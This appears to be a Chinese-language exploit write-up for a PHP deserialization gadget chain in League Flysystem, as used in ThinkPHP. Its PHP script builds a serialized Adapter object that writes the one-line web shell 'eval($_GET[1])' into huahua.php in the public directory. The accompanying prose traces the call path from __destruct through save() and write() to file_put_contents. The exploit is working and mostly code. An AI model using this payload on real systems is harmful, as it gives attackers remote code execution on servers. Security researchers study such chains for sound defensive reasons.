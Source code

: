 ```plain
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>
```

入口点是 abstract class AbstractCache 中的\_\_destruct 方法  
但是 PHP 的抽象方法不能被实例化，因此需要实例化它的子类，这里选择的是 League\\Flysystem\\Cached\\Storage 的 Adapter.php  
然后进入 Adapter.php 的 save () 方法：目标是进入 write () 方法，里面有 file\_put\_contents, 这里参数都可以控制首先看一下 getForStorage () 方法，它影响了 write 函数写入文件的内容 content 它会返回一个 json 加密的数据，这个参数是 cache,protected $cache = \[\]; 我们实例化的时候可控进入 cleanContents () 函数：我们只需要传入的 cache 是一个一维数组就不会进入 if 语句然后考虑这个 this->adapter 变量，这里找的是同时具有 has () 方法和 write () 方法的类，找到的是 League\\Flysystem\\Adapter 的 Local.php  
首先 has 方法我们需要保证返回 false 进入 applyPathPrefix () 很简单的字符串拼接，我们传入的 $this->file 只要是一个不存在的文件就行进入 write () 方法

[![](assets/1710900891-6d44ef8b1065c031621df2f951f38ba5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304110315-beebfeea-d9d3-1.png)

一样的先调用 applyPathPrefix () 方法，拼接一下文件路径，这里做的限制是删除路径的 / 字符，tp 默认写入文件就是 public 目录我们不需要设置路径最后成功写入木马  
此外我们看下 Y4tacker 师傅的 poc
